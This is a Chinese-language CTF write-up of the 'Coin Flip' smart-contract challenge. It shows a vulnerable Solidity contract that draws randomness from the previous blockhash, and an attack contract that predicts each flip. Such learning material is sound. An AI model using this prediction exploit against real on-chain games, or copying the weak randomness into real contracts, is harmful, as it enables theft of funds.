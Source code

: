 # 3.Coin Flip

## 题目描述

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645011948059-f3f2ea31-ba84-45db-b702-a7d7b2e428b1.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

这里通过计算上一区块的信息与一个固定的数值相计算，就不存在随机的情况了，除了第一次的上一区块随机，其他均为可知的值

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645054208418-cc8c6e81-78ce-4c64-846c-099cbc532ac2.png)

直接使用原合约的计算方法，部署攻击合约

```javascript
contract Attack {
  using SafeMath for uint256;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  address addr = 0x36D583674B7afE99c0c8FDE510BbA46ec7b96531;
  CoinFlip coin = CoinFlip(addr);

  function attack() public{
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    coin.flip(side);
  }
}
```

调用10次完成关卡

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645054867204-01557284-20da-4ba5-b878-41839a6cd94c.png)

```javascript
通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.
想要获得密码学上的随机数,你可以使用 Chainlink VRF, 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.
一些其它的选项包括使用比特币block headers (通过验证 BTC Relay), RANDAO, 或是 Oraclize).
```